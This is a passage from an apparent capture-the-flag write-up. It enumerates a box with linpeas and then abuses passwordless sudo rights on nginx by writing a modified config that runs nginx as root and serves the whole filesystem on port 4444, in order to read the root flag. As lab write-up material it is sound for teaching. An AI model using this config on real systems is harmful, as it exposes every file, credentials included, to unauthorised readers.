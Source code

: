 ## Linpeas
Enumerate the system with linpeas.
Uploaded to `/tmp/linpeas.sh`
Also logging it into a file to download it later.
```
./linpeas.sh | tee linpeas.log
```

What immediately stands out is that the user is allowed to run nginx with sudo privileges without any command.
While it might not give us complete control over the root owner, we can use this to read the root flag.

*After completing the challenge I looked at other write-ups to see if they did anything different. I saw that we could actually exploit this to gain full root access. I won't explain it here but if you're interested I can highly recommend looking at the official write-up.*

# :tada: Root Flag
Since we can run nginx with sudo, we can create a new configuration that runs nginx with the root user and gives us read access to all files on the server.

I copied the default config (at `/etc/nginx/nginx.conf`) to `/tmp/nginx.conf` and modified it slightly.
```diff
- user www-data;
+ user root;
  worker_processes auto;
  pid /run/nginx.pid;
  include /etc/nginx/modules-enabled/*.conf;
  
  # Truncated for brevity [...]
  
  http {
  
	  # Truncated for brevity [...]
  	
	  ##
	  # Virtual Host Configs
	  ##
  
	  include /etc/nginx/conf.d/*.conf;
-     include /etc/nginx/site-enabled/*;
  
+	  server {
+		  listen 4444;
+		  autoindex on;
+  
+		  root /;
+	  }
  }

  # Truncated before brevity [...]
```
